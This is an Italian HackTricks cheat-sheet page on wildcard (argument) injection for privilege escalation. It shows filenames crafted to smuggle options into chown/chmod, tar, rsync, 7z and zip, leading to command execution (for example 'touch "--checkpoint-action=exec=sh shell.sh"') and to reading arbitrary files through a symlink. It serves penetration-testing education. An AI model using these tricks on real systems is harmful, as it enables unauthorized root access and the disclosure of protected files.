 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## chown, chmod

Puoi **indicare quale proprietario del file e quali permessi desideri copiare per il resto dei file**
```bash
touch "--reference=/my/own/path/filename"
```
Puoi sfruttare questo usando [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(attacco combinato)_\
Ulteriori informazioni in [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## Tar

**Esegui comandi arbitrari:**
```bash
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
Puoi sfruttare questo usando [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(attacco tar)_\
Ulteriori informazioni in [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## Rsync

**Esegui comandi arbitrari:**
```bash
Interesting rsync option from manual:

-e, --rsh=COMMAND           specify the remote shell to use
--rsync-path=PROGRAM    specify the rsync to run on remote machine
```

```bash
touch "-e sh shell.sh"
```
Puoi sfruttare questo usando [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(_attacco _rsync)_\
Ulteriori informazioni in [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## 7z

In **7z** anche usando `--` prima di `*` (nota che `--` significa che l'input successivo non può essere trattato come parametri, quindi solo percorsi di file in questo caso) puoi causare un errore arbitrario per leggere un file, quindi se un comando come il seguente viene eseguito da root:
```bash
7za a /backup/$filename.zip -t7z -snl -p$pass -- *
```
E puoi creare file nella cartella in cui viene eseguito questo, potresti creare il file `@root.txt` e il file `root.txt` come un **symlink** al file che vuoi leggere:
```bash
cd /path/to/7z/acting/folder
touch @root.txt
ln -s /file/you/want/to/read root.txt
```
Poi, quando **7z** viene eseguito, tratterà `root.txt` come un file contenente l'elenco dei file che dovrebbe comprimere (questo è ciò che indica l'esistenza di `@root.txt`) e quando 7z legge `root.txt`, leggerà `/file/you/want/to/read` e **poiché il contenuto di questo file non è un elenco di file, genererà un errore** mostrando il contenuto.

_Maggiori informazioni nei Write-up della box CTF di HackTheBox._

## Zip

**Eseguire comandi arbitrari:**
```bash
zip name.zip files -T --unzip-command "sh -c whoami"
```
{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository su github.

</details>
{% endhint %}
